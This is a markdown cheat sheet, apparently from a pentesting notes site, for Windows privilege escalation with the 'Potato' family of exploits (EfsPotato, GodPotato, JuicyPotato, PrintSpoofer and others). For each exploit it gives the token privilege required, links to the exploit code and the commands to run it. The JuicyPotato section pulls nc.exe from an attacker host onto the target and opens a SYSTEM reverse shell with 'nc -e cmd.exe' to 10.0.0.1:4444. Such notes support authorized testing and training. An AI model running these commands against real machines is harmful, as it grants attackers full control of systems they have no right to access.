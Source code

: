 ```yaml
---
title: Windows PrivEsc with LocalPotato
description:
tags:
    - Privilege Escalation
    - Windows
refs:
    - https://jlajara.gitlab.io/Potatoes_Windows_Privesc
    - https://github.com/decoder-it/LocalPotato
    - https://www.localpotato.com/localpotato_html/LocalPotato.html
    - https://tryhackme.com/room/localpotato
    - https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/roguepotato-and-printspoofer
    - https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/
date: 2024-03-08
draft: false
---
```


## EfsPotato

### Required Privilege

- `SeImpersonatePrivilege`

### Payloads

- [https://github.com/zcgonvh/EfsPotato](https://github.com/zcgonvh/EfsPotato)

```bash
EfsPotato "cmd.exe /c whoami"
```

<br />

## GodPotato

### Required Privileges

- `SeImpersonatePrivilege`

### Payloads

- [https://github.com/BeichenDream/GodPotato](https://github.com/BeichenDream/GodPotato)

```bash
GodPotato -cmd "cmd /c whoami"
```

<br />

## JuicyPotato

### Required Privilege

- `SeImpersonatePrivilege` or `SeAssignPrimaryToken`

### Payloads

- [https://github.com/antonioCoco/JuicyPotatoNG](https://github.com/antonioCoco/JuicyPotatoNG)
- [https://github.com/ohpe/juicy-potato](https://github.com/ohpe/juicy-potato)

Before exploiting, we need to upload **`nc.exe`** (it is available from [here](https://github.com/int0x33/nc.exe/)) to the target machine.

```powershell
Invoke-WebRequest -Uri http://10.0.0.1:8000/nc.exe -OutFile c:\Temp\nc.exe
```

Next start a listener in local machine.

```bash
nc -lvnp 4444
```

Then execute **`JuicyPotato`** in target machine.

```powershell
JuicyPotatoNG.exe -t * -p "c:\Temp\nc.exe" -a "10.0.0.1 4444 -e cmd.exe"
```

<br />

## PrintSpoofer

### Required Privilege

- `SeImpersonatePrivilege`

### Payloads

- [https://github.com/dievus/printspoofer](https://github.com/dievus/printspoofer)

```bash
PrintSpoofer.exe -i -c cmd
```

<br />

## RoguePotato

### Required Privilege

- `SeImpersonatePrivilege`

### Payloads

- [https://github.com/antonioCoco/RoguePotato](https://github.com/antonioCoco/RoguePotato)

<br />

## RottenPotato

### Required Privilege

- `SeImpersonatePrivilege`

### Payloads

- [https://github.com/breenmachine/RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG)

